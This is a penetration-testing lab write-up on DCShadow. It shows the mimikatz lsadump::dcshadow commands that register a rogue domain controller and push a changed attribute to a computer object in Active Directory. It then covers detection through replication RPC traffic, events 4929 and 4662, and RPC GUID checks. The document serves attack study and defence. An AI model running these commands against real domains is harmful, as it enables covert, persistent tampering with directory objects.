 # DCShadow - Becoming a Rogue Domain Controller

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required - one running with `SYSTEM` privileges and another one with privileges of a domain member that is in `Domain admins` group:

![](../../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../../.gitbook/assets/dcshadow-computer-properties.png)

Note the `badpwcount` property which we will try to change with DCShadow by setting the value to 9999:

{% code title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode %}

We can now push the change to the primary Domain Controller `DC-MANTVYDAS`:

{% code title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode %}

Below are the screenshots of the above commands and their outputs as well as the end result, indicating the `badpwcount`value getting changed to 9999:

![](../../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect this type of rogue activity, you could monitor the network traffic and suspect any non-DC hosts (our case it is the PC-W10$ with `10.0.0.7`) issuing RCP requests to DCs (our case DC-MANTVYDAS with `10.0.0.6`) as seen below:

![](../../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event (Detailed Directory Service Replication), you may want to investigate what else is happening on that system:

![](../../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds time frame sound anomalous. Events `4662` may be helpful for identifying this:

![](../../.gitbook/assets/dcshadow-createobject.png)

![](../../.gitbook/assets/dcshadow-delete1.png)

![](../../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post\_header\_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated.&#x20;

We see that our suspicious computer exposes that exact service:

![](../../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
# or
(Get-ADComputer pc-w10).DistinguishedName
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../../.gitbook/assets/dcshadow-ou-dc.png)

## References

Below are the resources related to DCShadow attack. Note that there is also a link to youtube by a security company Alsid, showing how to dynamically detect DCShadow, so please watch it.

{% embed url="https://attack.mitre.org/wiki/Technique/T1207" %}

{% embed url="https://www.dcshadow.com/" %}

{% embed url="https://www.youtube.com/watch?v=KILnU4FhQbc" %}

{% embed url="https://www.youtube.com/watch?v=yWFUKwZaT_4" %}
Dynamic Detection of DCShadow
{% endembed %}

{% embed url="https://github.com/AlsidOfficial/UncoverDCShadow" %}

{% embed url="http://www.labofapenetrationtester.com/2018/04/dcshadow.html" %}

{% embed url="https://blog.alsid.eu/dcshadow-explained-4510f52fc19d" %}

